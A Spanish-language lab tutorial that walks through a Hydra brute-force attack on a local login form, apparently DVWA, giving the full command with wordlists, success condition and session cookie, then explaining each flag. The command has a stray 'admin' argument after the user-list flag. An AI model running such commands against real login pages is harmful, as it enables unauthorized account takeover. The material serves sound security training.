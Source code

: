 En este apartado, vamos a realizar un ataque de fuerza bruta para conseguir acceso a nuestra página web vulnerable, haciendo uso de hidra junto a un par de wordlists con posibles nombres de usuarios y contraseñas filtradas. Para ello vamos a implementar el siguiente comando:


    hydra -L /home/ubuntu/Desktop/credentials/users.txt admin -P /home/ubuntu/Desktop/credentials/passwds.txt 'http-get-form://127.0.0.1/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:S=Welcome:H=Cookie\: PHPSESSID=j422143437vlsdgqs0t1385420; security=medium'


hydra
    
    → Es la herramienta utilizada para realizar el ataque de fuerza bruta.

-L /home/ubuntu/Desktop/credentials/users.txt
    
    → Especifica la lista de usuarios. Si quisieras probar varios usuarios, usarías -L con un archivo de nombres de usuario.

-P /home/ubuntu/Desktop/credentials/passwds.txt
    
    → Especifica la lista de contraseñas, la cual contiene millones de combinaciones comunes.

http-get-form://127.0.0.1/vulnerabilities/brute/

    → Indica que se atacará un formulario de inicio de sesión usando el método GET.
    → La URL objetivo es http://127.0.0.1/vulnerabilities/brute/ 

username=^USER^&password=^PASS^&Login=Login
    
    → Define la estructura del formulario de autenticación:

        ^USER^ será reemplazado por el usuario (admin en este caso).
        ^PASS^ será reemplazado por cada contraseña de la lista.
        Login=Login representa el botón de envío.

:S=Welcome
    
    → Indica la condición de éxito: si la respuesta del servidor contiene la palabra "Welcome", significa que el acceso fue exitoso.

:H=Cookie\: PHPSESSID=j422143437vlsdgqs0t1385420; security=medium
   
     → Agrega una cabecera HTTP con cookies:

        PHPSESSID=j422143437vlsdgqs0t1385420 
            Identificador de sesión que puede ser necesario si el sistema lo requiere.
    
        security=medium 
            Establece un nivel de seguridad en la plataforma de pruebas (posiblemente DVWA, Damn Vulnerable Web Application).
